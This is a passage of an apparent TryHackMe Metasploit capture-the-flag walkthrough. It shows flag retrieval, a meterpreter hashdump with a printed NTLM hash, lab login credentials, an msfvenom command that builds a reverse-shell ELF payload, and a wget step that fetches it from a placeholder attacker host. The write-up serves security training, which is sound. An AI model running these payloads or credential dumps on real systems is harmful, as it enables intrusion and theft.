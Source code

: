 ```

```
ls -la /users/jon/documents
```
![image](https://user-images.githubusercontent.com/14150485/170525321-2d525e27-ffb6-4fcd-9d6d-0d03f2895bc2.png)
```
cat flag.txt
```
```
THM-5455554845
```

### 5.3: What is the NTLM hash of the password of the user "pirate"?
```
hashdump
```
![image](https://user-images.githubusercontent.com/14150485/170523057-8a28c4f5-f0fd-4b9b-9ee6-64bf1edb6746.png)

```
8ce9a3ebd1647fcc5e04025019f4b875
```

<br />
<br />

## 6. Msfvenom

### 6.1: Launch the VM attached to this task. The username is murphy, and the password is 1q2w3e4r. You can connect via SSH or launch this machine in the browser. Once on the terminal, type "sudo su" to get a root shell, this will make things easier.
```
No answer needed
```
<br />

### 6.2: Create a meterpreter payload in the .elf format (on the AttackBox, or your attacking machine of choice).

<br />

To create the payload we run the command supplied in this module, replacing ```LHOST``` with our local IP and ```LPORT``` with our desired local port.
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=LOCAL_IP LPORT=LOCAL_PORT -f elf > rev_shell.elf
```
This will create a ```rev_shell.elf``` file that we can use to upload to the target system.

![2022-05-26 21_51_24-Kali  Running  - Oracle VM VirtualBox](https://user-images.githubusercontent.com/14150485/170578171-a23270c7-0f3c-4929-88e4-ab48d776e467.png)

```
No answer needed
```
<br />

### 6.3: Transfer it to the target machine (you can start a Python web server on your attacking machine with the python3 -m http.server 9000 command and use wget http://ATTACKING_MACHINE_IP:9000/shell.elf to download it to the target machine).

<br />

We set up a temporary server locally using python, as instructed.
```
